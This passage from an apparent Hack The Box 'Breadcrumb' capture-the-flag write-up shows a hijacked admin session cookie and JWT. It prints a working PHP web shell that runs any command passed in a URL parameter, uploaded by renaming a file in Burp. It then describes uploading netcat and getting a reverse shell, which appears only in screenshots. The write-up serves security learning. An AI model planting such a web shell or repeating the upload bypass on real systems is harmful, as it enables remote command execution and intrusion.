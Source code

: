 So we have the following ID Session of Admin Paul: `PHPSESSID=paul47200b180ccd6835d25d034eeb6e6390; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU`

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-cookie-test.png" | relative_url }})

## **<span style='color:#c0392b'>[3] Foothold - Get into the target </span>**
### Uploading webshell and tool
***

We have now privilege to upload on website, with only zip restriction. I test to upload webshell with .html extension and change it to .php into burp.

```terminal
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-upload-webshell.png" | relative_url }})

And it's work, we have possibility now from uploads path to test if webshell works.

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-webshell.png" | relative_url }})

I decide to upload nc.zip and extract with powershell command.

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-nc.png" | relative_url }})

### Get revshell
***

Execute command to get a reverse shell.

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-revshell.png" | relative_url }})

